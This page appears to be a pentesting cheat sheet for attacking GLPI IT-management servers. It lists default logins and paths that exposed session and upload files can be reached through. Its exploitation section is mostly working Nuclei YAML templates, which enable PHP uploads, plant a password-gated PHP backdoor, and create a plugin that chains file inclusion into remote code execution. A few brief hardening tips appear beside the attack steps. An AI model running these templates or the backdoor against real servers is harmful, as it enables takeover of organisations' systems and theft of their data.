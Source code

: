 # GLPI IT Management

<div class="row row-cols-lg-2"><div>

GLPi is a popular open-source it management platform. It can be used for a variety of use cases going from host management to ticketing.

* [Official website](https://glpi-project.org/)
* [Github](https://github.com/glpi-project/glpi) <small>(4.6k ⭐)</small>
* MySQL/MariaDB and PHP

GLPi is commonly found in french enterprises even if they have another solutions globally, often for a specific use case.
</div><div>

Default credentials are:

* `glpi:glpi` (Super Admin)
* `post-only:post-only` (Self-Service)
* `tech:tech` (Technician)
* `normal:normal` (Observer)

⚠️ Using this software may be dangerous as each [release](https://github.com/glpi-project/glpi/releases) usually has many patched vulnerabilities <small>(3-7 per release, excluding misconfigurations)</small>.
</div></div>

<hr class="sep-both">

## GLPI — Website Discovery

<div class="row row-cols-lg-2"><div>

#### GLPI Discovery — Forced Browsing

By default, GLPI webserver should be mapped to the `/public/` folder. It's often misconfigured, leading to internal files being web-accessible.

* [ ] `/files/` - critical sensitive files, protected by .htaccess
  * [ ] `/files/_log/` - server and application logs
  * [ ] `/files/_sessions/` - PHP sessions
  * [ ] `/files/_tmp/` or `/files/_uploads/` - uploaded files 
* [ ] `/version/` - directory listing may be enabled
* [ ] `/vendor/` - protected by .htaccess
</div><div>

#### GLPI Discovery — Fingerprint

GLPi version can be found in two places.

* [x] Check for a file such as `/version/10.0.10`
* [x] Check `About` for GLPI version once connected
* [x] Check `/ajax/telemetry.php` for versions once connected
* [x] Detect GLPI Install Page
</div></div>

<hr class="sep-both">

## GLPI — Website Exploitation

<div class="row row-cols-lg-2"><div>

#### GLPI Exploitation — Weak Credentials

We may get a foothold if default credentials were not changed.

* [ ] Test all default credentials

🛡️ Use strong passwords and disable default accounts.

#### GLPI Exploitation — .htaccess failure

By default, `.htaccess` are ignored by Apache unless `AllowOverride` is specified. This can lead to multiple security issues.

* [ ] Navigate to `/files/_session/` and try every cookie
* [ ] Upload a PHP script and run it from `/files/_tmp/`

🛡️ Only expose the `/public/` folder or use `AllowOverride` on Apache.

#### GLPI Exploitation — PHP File Upload

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Observer+]`.

<details class="details-n">
<summary>Allow PHP Extension In File Upload</summary>

```yaml!
id: glpi-enable-php-upload

info:
  name: GLPI Enable PHP Upload
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/documenttype.form.php"

    headers:
      Content-Type: "multipart/form-data; boundary=----48d91b129fc5f9f6167b0f7da257b91"

    body: "------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\nPHP\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"comment\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"icon\"\r\n\r\nai-dist.png\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"is_uploadable\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"ext\"\r\n\r\nphp\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"mime\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"add\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91--\r\n"

    extractors:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Upload PHP File</summary>

```yaml!
id: glpi-upload-php-webshell

info:
  name: GLPI Upload setup.php webshell
  description: |
    Only one uploaded file can be named "setup.php" which can be used along with a specific LFI to get a RCE.
    This code upload some setup.php file that can be used to load another arbitrary.php.
    This makes it easy to exploit a website as we cannot delete nor modify "setup.php".

    With the intended LFI exploit, simply use: 

    {{BaseURL}}/front/plugin.php?passwd=Pwned1234!&target=your_real_webshell.php)
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/fileupload.php"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "multipart/form-data; boundary=----5caea02864785d478355a5e77c18d034"

    body: "------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\n_uploader_filename\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"showfilesize\"\r\n\r\n1\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"_uploader_filename[]\"; filename=\"setup.php\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\r\nif(isset($_GET['passwd'])&&$_GET['passwd']===\"Pwned1234!\"){ini_set('display_errors',1);error_reporting(E_ALL);echo \"Password OK\";if(isset($_GET['target'])){include_once $_GET['target'];}die();}\r\n------5caea02864785d478355a5e77c18d034--\r\n"

    matchers:
      - type: status
        status:
          - 200
```
</details>

🛡️ It seems in recent versions, they banned a few extensions.
</div><div>

#### GLPI Exploitation — LFI To RCE

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Super Admin]`.

<details class="details-n">
<summary>Enable Plugin Creation</summary>

```yaml!
id: glpi-enable-plugin-creation

info:
  name: GLPI Enable Plugin Creation
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="
        name: csrf
        internal: true

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/profile.form.php"

    headers:
      Content-Type: "application/x-www-form-urlencoded"

    # Default is "3", to enabled plugins, we use "31"
    # (enabled on id=4 which is super-admin)
    body: "_config%5B31_0%5D=1&id=4&update=Save&_glpi_csrf_token={{token}}"

    matchers:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Create Plugin With Arbitrary PHP File</summary>

```yaml!
id: glpi-lfi-using-plugins

info:
  name: GLPI LFI using Plugins
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/kanban.php?action=add_item&itemtype=Plugin"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "application/x-www-form-urlencoded"

    body: "action=add_item&inputs=directory%3d../files/_tmp%26name%3dpwned%26version%3d1.0.0%26author%3dPwned"

    extractors:
      - type: dsl
        dsl:
          - status_code_2
```
</details>

📚 Original article: [OCD Exploit](https://sensepost.com/blog/2024/from-a-glpi-patch-bypass-to-rce/)

#### GLPI Exploitation - Known CVEs

List of known exploitable CVEs.

* [ ] [CVE-2019-10232](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2019/CVE-2019-10232.yaml)
* [ ] [CVE-2020-11034](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2020/CVE-2020-11034.yaml)
* [ ] [CVE-2021-39211](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-39211.yaml)
* [ ] [CVE-2021-43778](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-43778.yaml)
* [ ] [CVE-2022-35914](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-35914.yaml)
* [ ] [CVE-2024-29889](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-29889.yaml)
</div></div>
